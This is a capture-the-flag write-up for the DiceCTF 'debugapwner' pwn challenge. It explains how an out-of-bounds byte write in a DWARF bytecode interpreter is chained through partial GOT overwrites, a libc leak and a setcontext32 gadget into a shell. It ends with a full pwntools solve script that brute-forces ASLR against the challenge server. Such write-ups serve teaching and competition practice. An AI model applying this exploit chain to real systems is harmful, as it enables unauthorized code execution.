

## debugapwner
- **Challenge Author:** clubby
- **Challenge Description:** Revving `debugalyzer` wasn't enough? Try pwning it

---

In this challenge, we are provided a Dockerfile, `server.py`, and an executable called `dwarf`. Also, as the challenge description notes, this challenge was related to and somewhat a continuation of another challenge `debugalyzer` in the rev category. I decided to start with that challenge to get a better understanding of how the binary worked before trying to pwn it.

### Reversing

I'll try to go quickly through this challenge as the main focus is `debugapwner`. Essentially, in `debugalyzer` we are given two binaries `dwarf`, the same as `debugapwner`, and `main`. `main` is extremely simple and really does nothing on its own just printing and returning:


All of the magic happens in `dwarf` with two key functions: `main` and `execute_dwarf_bytecode_v4`. `main` will read in another elf, call various functions to parse it like `gelf_getehdr`, search for the `.debug_line` section, and then call `execute_dwarf_bytecode_v4` on it. 




`execute_dwarf_bytecode_v4` will then go through the `.debug_line` section of the passed in elf byte-by-byte and perform various operations depending on various opcodes. Some of these were standard dwarf opcodes, but they also implemented two so-called "extended opcodes" denoted by bytes 0x51 and 0x52. Here are their implementations:


Extended opcode 0x51 will read in a byte and write it to the global `flag` buffer at a specified offset.


Extended opcode 0x52 is a little more complicated, but essentially you specify two indexes of the `flag` buffer as well as an operator. It will then grab the two bytes at their indexes, perform some operation (addition, subtraction, multiplication, xor), and then check the result against a provided value. If this result is incorrect it will change the value of a flag_correct variable.

Knowing this, we can return to `main` to better understand it. In the `.debug_line` section the opcodes begin at an offset of 0x40. We can quickly see a lot of 0x51 and 0x52 opcodes.


Here is an example 0x51 opcode. The first byte 0x00 signifies an extended opcode, the 0x3 specifies the length of the opcode, 0x51 is the opcode itself, the 0x00 signifies to offset into the `flag` buffer, and then the char 'd' will be written. This writes the first 'd' of the flag format into the buffer.


Here is an example 0x52 opcode. We again have the signifier for extended opcode, length, opcode, index 1, index 2, operation, and the "correct" result.

Knowing this, `debualyzer` just became a standard constraint-solving problem. First, it would load some bytes then provide the expected relationships between various indexes. We have more than enough information to solve it so something like z3 wasn't even necessary. Now, onto the pwning!

### Pwn overview

So, we understand what `dwarf` does, but what about the provided server.py.


In fact, it's extremely simple. It asks the user for a base64 encoded ELF and uses that as the argument into `dwarf` rather than the `main` binary we had for the rev.


The protections on the `dwarf` binary were almost everything enabled except for Partial RELRO.

### Searching for primitives

My next step was to identify what kinds of bugs and primitives we have to work with. Most likely everything will be performed in the custom extended opcodes as the rest of `execute_dwarf_bytecode_v4` didn't provide much functionality.

Luckily, extended opcode 0x51 gives us a pretty obvious one byte write. In fact, the offset into the flag buffer can be negative and can reach quite far. This is a great write primitive, but with the protections enabled some leaks will probably be necessary. I spent lots of time trying to abuse the 0x52 opcode or other functionality in the binary, but opcode 0x51 is all we get! Let's see where we can write.


Due to the flag buffer's position in the bss section there's not anything helpful to write ahead of it as we have no idea where the heap is. Behind it though, we do get access to the GOT table and some data variables. Writes into these alone will have to get us a shell somehow. Thankfully, Partial RELRO helps us a lot, but we still have no leaks.

### Exploitation plan

Right, so because we're leakless we'll need to look into partial GOT overwrites. Due to our fine byte-by-byte control we can overwrite just the lower bytes of a GOT entry to call a different function, all without leaks (though some bruteforce will be necessary)!

The simplest idea here is of course to call `system("/bin/sh")` or a one gadget. Unfortunately, after trying many, the one gadget constraints were too tight. Also, the distance between them and GOT functions was a bit far. My next goal was to see if we could get rdi control to write `"/bin/sh"` and get a consistent shell.


Luckily, `puts` was an excellent candidate for this! `select_str` would return a pointer to either incorrect_msg or correct_msg, but it didn't really matter as both were located in the bss, so we could control them with our writes. Thus, if we changed `puts` to `system` and `"Flag is incorrect!"` to `"/bin/sh"` we could get a shell! But there was a big problem.


Without leaks we can only do partial overwrites which requires bruteforcing some nibbles of libc addresses. In this case, `puts` and `system` differ in their last 6 nibbles. The lowest 3 are fixed, but the remaining 3 will be affected by ASLR. This leaves us with a 16^3 = 1/4096 bruteforce. Although this is possible, it can be quite intense on remote servers. I asked the challenge authors and they said I should look for a solution with less bruteforce.

In hindsight, many teams just got away with doing this bruteforce making the challenge much simpler, though I enjoyed having to come up with something more creative. Here is a quick explanation of the author's intended solution as my solution begins to diverge at this point.

### Author's solution

The official solution can be found [here](https://github.com/dicegang/dicectf-quals-2025-challenges/tree/main/pwn/debugapwner), it's quite clever and uses very minimal bruteforce. In the version of libc used by the challenge in ubuntu 22, `puts` actually resides on the same page as `popen`. Many players get fixated on `system`, but in fact `popen` works as a great alternative. Though the argument required is more complicated than a `system("/bin/sh")` call. However, in this case, we have so much control over the (in)correct_msg strings that this is possible. Unfortunately, I did not spot this solution either and found something else.

### The hunt for less bruteforce

Overwriting `puts` was still my best lead, so I continued along this path. Maybe I can't use `system` or a one gadget, but what are our other options? One promising candidate I found was `gets`.


Similar to `popen` mentioned earlier, `gets` and `puts` reside on the same page, so just one nibble of bruteforce is enough. The great thing about `gets` is that we get to stage some kind of additional payload or extra bytes. This might seem underwhelming, but for this challenge it's a huge help.

Up until now, we've had to do everything leakless. This results from the fact that once we upload our base64 encoded elf to the server our exploitation is over. Even if we got a leaked address to print we'd have no way of using it because we have no further interaction with the program. `gets` gives us this interaction and opens up the possibility of leaks.

### Leak time

To get leaks we will exploit the same `puts` call that prints our incorrect/correct message.


The reason we can do this is because right after our messages in the bss are `stdout` and `stderr` libc pointers! All we need to do is overwrite the gap between the messages and these pointers for an easy leak.

The issue though is that `execute_dwarf_bytecode_v4` returns after printing this message. Luckily though, `main` will continue executing and searching for any additional `.debug_line` sections. In fact, we can have as many of those sections as we want to call `execute_dwarf_bytecode_v4` as many times as we want.

So after putting it all together, our first `.debug_line` section uses the 0x51 opcode to write bytes after incorrect_msg up to the `stdout` libc pointer. Then, we trigger the end of the section so `execute_dwarf_bytecode_v4` returns and prints out our libc pointer. Our next `.debug_line` section then does a 1/16 bruteforce to overwrite `puts` with `gets`. Using our interaction with the program we can write a payload with libc pointers into the bss section. Great progress! But we're stuck again...

### What to overflow

Our `gets` call is great, but the only argument `puts` is ever called with is incorrect and correct msg. These are in the bss section and already accessible to write to with the 0x51 opcode, the only difference being that now we can write some libc pointers there. But where would they ever be used...


Remember that `stderr` pointer in our controlled bss? Well it actually is used quite a few times in `main` when there are issues reading or parsing the elf. What if we could trigger one of these calls with a controlled `stderr` pointer and redirect `fprintf` or `fwrite` to something more desirable by overwriting their GOT entries?

### GOT chaining galore

I've become pretty fixated on our `puts` call, but in fact, there are 19 other GOT entries we can take advantage of! The limiting factor though is our bruteforce. We've already used a 1/16 and the whole goal was to stay under 1/4096, this leaves us with just one more nibble that we can bruteforce.

This is where our final tool comes into play, unresolved GOT entries. Before a GOT function is called for the first time in a program it points to a trampoline in the PLT like so:


Once the function is called for the first time and resolved it will directly point to its address in libc. The great thing about the PLT is how many of these trampolines are so close to each other, sometimes completely eliminating a need for bruteforce. Finally, `main` is also close to the PLT!


So, with just one nibble of bruteforce we can essentially point any unresolved GOT function to the PLT trampoline of ANY other function in the GOT or `main`. This opens up a very large number of possible exploit paths. I'm sure there were many ways to finish this, but here's the crazy path I came up with.

### Final exploit path

1. The first `.debug_line` section of our base64 encoded ELF writes garbage bytes to fill up `correct_msg` up to the `stdout` pointer in the bss.

2. The first `.debug_line` section ends returning to `main` and printing out a libc pointer.

3. Our second `.debug_line` section performs 3 partial GOT overwrites. The first points `puts`->`gets`. This is a 1/16 bruteforce. The second points `fprintf`->`puts@plt`. The third points `elf_end`->`main+413`. These together are another 1/16 bruteforce as they lie in the same page. This results in a final 1/256 bruteforce. Here is the state of the GOT after overwrites:

4. The second `.debug_line` section ends returning to `main` and calling `puts` on `correct_msg`. However, this actually calls `gets` letting us overwrite `stderr` with the first writable section of libc.


5. `main` promptly calls the unresolved `elf_end` once all of our `.debug_line` sections have been parsed. However, this will actually jump to `main+413`.


6. `main+413` loads the `stderr` pointer into rdi and executes the unresolved `fprintf` with our controlled address as the first argument.

7. `fprintf` calls `puts@plt` which just calls its GOT entry which we have already overwritten to point to `gets`.

8. We now have a `gets` call on an arbitrary libc address. There are many ways to reach code execution here, but I opted for pepsipu's setcontext32 gadget which is described [here](https://hackmd.io/@pepsipu/SyqPbk94a).

10. Shell and flag!


### Conclusion

Of course this exploit had to be run hundreds of times against remote, but eventually it worked. Also, I didn't really go into the details of constructing the final binary passed into `dwarf` and its `.debug_line` sections, but this was mostly tedious work and very simple if you had done the rev challenge.

Anyways, here's the final solve script and flag. I hope this showed you just how powerful partial overwrites and creative GOT chaining can be. Also thanks to Dice for organizing another great ctf.

### Solve script

```python
from pwn import *
import base64

f = open('patch_patch', 'rb')
elf = f.read()
f.close()

libc = ELF('./libc.so.6')
elf_encoded = base64.b64encode(elf)

def create_ucontext(
    src: int,
    rsp=0,
    rbx=0,
    rbp=0,
    r12=0,
    r13=0,
    r14=0,
    r15=0,
    rsi=0,
    rdi=0,
    rcx=0,
    r8=0,
    r9=0,
    rdx=0,
    rip=0xDEADBEEF,
) -> bytearray:
    b = bytearray(0x200)
    b[0xE0:0xE8] = p64(src)  # fldenv ptr
    b[0x1C0:0x1C8] = p64(0x1F80)  # ldmxcsr

    b[0xA0:0xA8] = p64(rsp)
    b[0x80:0x88] = p64(rbx)
    b[0x78:0x80] = p64(rbp)
    b[0x48:0x50] = p64(r12)
    b[0x50:0x58] = p64(r13)
    b[0x58:0x60] = p64(r14)
    b[0x60:0x68] = p64(r15)

    b[0xA8:0xB0] = p64(rip)  # ret ptr
    b[0x70:0x78] = p64(rsi)
    b[0x68:0x70] = p64(rdi)
    b[0x98:0xA0] = p64(rcx)
    b[0x28:0x30] = p64(r8)
    b[0x30:0x38] = p64(r9)
    b[0x88:0x90] = p64(rdx)

    return b

def setcontext32(libc: ELF, **kwargs) -> (int, bytes):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt_trampoline = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    return got, flat(
        p64(0),
        p64(got + 0x218),
        p64(libc.symbols["setcontext"] + 32),
        p64(plt_trampoline) * 0x40,
        create_ucontext(got + 0x218, rsp=libc.symbols["environ"] + 8, **kwargs),
    )

# puts = gets
# elf_end = main+413
# fprintf = puts@plt

def run():
    if args.REMOTE:
        p = remote('dicec.tf', 32337)
    else:
        p = remote('0.0.0.0', 5000)

    p.sendline(elf_encoded)
    p.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
    libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x21b780
    print(hex(libc.address))

    time.sleep(1)

    writable_offset = 0x21a000
    second_stage = b'B'*80 + p64(libc.address+writable_offset)
    p.sendline(second_stage)

    time.sleep(1)

    dest, payload = setcontext32(
        libc, rip=libc.sym["system"], rdi=libc.search(b"/bin/sh").__next__()
    )
    p.sendline(payload)

    time.sleep(1)

    p.clean()

    p.sendline(b'ls')
    p.sendline(b'cat /flag.txt')
    p.sendline(b"echo 'WINNER'")

    g = open('hehe.txt', 'ab')
    res = p.recvuntil(b'WINNER')
    g.write(res)
    print(res)
    g.close()

    p.close()

def wrapper(hi):
    try:
        run()
    except:
        return False
    return True

util.iters.mbruteforce(wrapper, alphabet=string.printable, length=8, method='fixed', threads=32)
```

#### Flag: `dice{not_contrived_at_all_:^)}`

